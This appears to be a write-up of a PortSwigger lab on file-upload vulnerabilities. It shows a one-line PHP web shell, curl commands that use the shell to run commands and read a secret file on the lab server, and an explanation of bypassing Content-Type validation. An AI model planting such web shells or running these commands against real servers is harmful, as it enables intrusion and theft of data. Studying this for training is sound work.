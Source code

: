 # 1f1 - Remote code execution via web shell upload \[PortSwigger Lab]

This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret.

You can log in to your own account using the following credentials: `wiener:peter`

### **Solution:**

So this application has an unprotected upload field in user page where you can upload profile avatar.

<figure><img src="/.gitbook/assets/Pasted image 20240719131804.png" alt=""><figcaption><p>unprotected file upload</p></figcaption></figure>

From there, I effectively uploaded a file named `mal.php` with contents `<?php echo system($_GET['command']); ?>`

once upload was done, I had to know where the file was uploaded so I could call it. Inspecting avatar link gave me the clue. `<img src="/files/avatars/mal.php" class="avatar">`

so I opened up terminal and called the `mal.php`

```
$> curl -X GET "https://0a9000000490ee47800ead51001f0062.web-security-academy.net/files/avatars/mal.php?command=pwd"

/var/www/html/avatars
/var/www/html/avatars
```

Now I know I'm at `/var/www/html/avatars`. So to read the contents of the `secrets` file, all I have to do is a simple \[\[2 - Portswigger Academy#Path Traversal |Path Traversal]]

```
$> curl -X GET "https://0a9000000490ee47800ead51001f0062.web-security-academy.net/files/avatars/mal.php?command=cat%20../../../../home/carlos/secret"

U4AE****************************U4AE****************************
```

Keep in mind this method repeats the message twice, so I had to remove the second part of message.

The `secret` contents:`` `U4AE****************************' ``

***

Most of the times, FOV will not be this easy. There will be defense mechanisms in place, but it doesn't mean they are robust. They can still be exploited by finding flaws in these defense mechanisms.

1. Flawed file type validation When submitting HTML forms, the browser sends this data in POST request with content type `application/x-www-form-url-encoded`. This is fine for textual data, but for larger amounts of binary data like PDF or images, content type `multipard/form-data` is preferred.

Consider the following example of form upload with image field, description and username

```
POST /images HTTP/1.1 
Host: normal-website.com 
Content-Length: 12345 
Content-Type: multipart/form-data; 
boundary=---------------------------012345678901234567890123456 ---------------------------012345678901234567890123456 
Content-Disposition: form-data; 
name="image"; 
filename="example.jpg" 
Content-Type: image/jpeg 
[...binary content of example.jpg...] 
---------------------------012345678901234567890123456 
Content-Disposition: form-data; 
name="description" This is an interesting description of my image. ---------------------------012345678901234567890123456 
Content-Disposition: form-data; 
name="username" wiener ---------------------------012345678901234567890123456--
```

We can see Content-Type, filename, binary data and other interesting information about this form in here.

One way that a website might validate uploaded file, is to check the input-specific `Content-Type` if it matches expected file type. if it only expects `image/png` it will only allow PNG. It could become problematic if the server trusts this header for what a file is and doesn't perform further validation on the file, whether the file itself matches its description. this defense can be bypassed a tool like BurpSuite.
